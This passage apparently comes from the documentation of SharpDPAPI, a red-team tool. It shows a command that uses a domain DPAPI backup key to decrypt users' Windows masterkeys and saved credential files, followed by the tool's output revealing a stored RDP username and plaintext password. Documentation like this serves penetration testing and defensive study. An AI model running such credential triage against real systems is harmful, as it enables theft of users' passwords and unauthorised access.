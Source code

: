 
    Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

      CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB

        guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
        size             : 436
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      : Local Credential Data

        LastWritten      : 1/22/2019 2:44:40 AM
        TargetName       : Domain:target=TERMSRV/10.4.10.101
        TargetAlias      :
        Comment          :
        UserName         : DOMAIN\user
        Credential       : Password!

      ...(snip)...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:
 
    C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Credential Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging Credentials for ALL users


    Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

      CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB

        guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
        size             : 436
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      : Local Credential Data

        LastWritten      : 1/22/2019 2:44:40 AM
        TargetName       : Domain:target=TERMSRV/10.4.10.101
        TargetAlias      :
        Comment          :
        UserName         : DOMAIN\user
        Credential       : Password!
